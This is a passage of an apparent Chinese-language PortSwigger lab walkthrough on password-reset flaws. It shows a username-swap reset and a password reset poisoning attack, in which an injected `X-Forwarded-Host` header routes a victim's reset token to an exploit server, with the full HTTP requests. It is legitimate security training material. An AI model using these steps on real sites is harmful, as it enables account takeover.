     temp-forgot-password-token=qxt1pa53szvrz2gzkf37ioz6wyuyzrbj&username=wiener&new-password-1=peter&new-password-2=peter
    ```
2. 嘗試將 `username` 更改為 `carlos` 並請求，就成功修改 `carlos` 的密碼了。
3. 使用帳號密碼 `carlos`/`peter` 登入完成此 Lab。
:::

如果重設電子郵件中的 URL 是動態產生的，這也可能容易受到密碼重設毒化攻擊。在這種情況下，攻擊者可能竊取其他使用者的權杖並用它來變更他們的密碼。

::: tip Lab: [Password reset poisoning via middleware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)

1. 這是一個忘記密碼的請求：
    ```http
    POST /forgot-password HTTP/2
    Host: 0a4b00100365cd8d84b5a42400690075.web-security-academy.net
    Cookie: session=8dnBx3nVI2SWWE3ITK9Ry4hRB2AeDr2z
    Content-Length: 15
    Cache-Control: max-age=0
    Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "macOS"
    Accept-Language: en-US,en;q=0.9
    Origin: https://0a4b00100365cd8d84b5a42400690075.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://0a4b00100365cd8d84b5a42400690075.web-security-academy.net/forgot-password
    Accept-Encoding: gzip, deflate, br
    Priority: u=0, i

    username=wiener
    ```
2. 在其中加入 `X-Forwarded-Host` 的 Header，並將忘記密碼的使用者改成 `carlos`：
    ```http
    X-Forwarded-Host: exploit-0aa0009c0316cd8f845da3bb01a20045.exploit-server.net
    ```
3. 在 Access log 中看到包含 token 的請求
4. 存取 `https://your-lab-ID.web-security-academy.net/` + Access log 中的 URL 路徑、參數，即可修改 carlos 的密碼。
5. 修改密碼後登入 `carlos` 使用者完成此 Lab。
:::

::: info Read more

[Password reset poisoning](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning)
:::
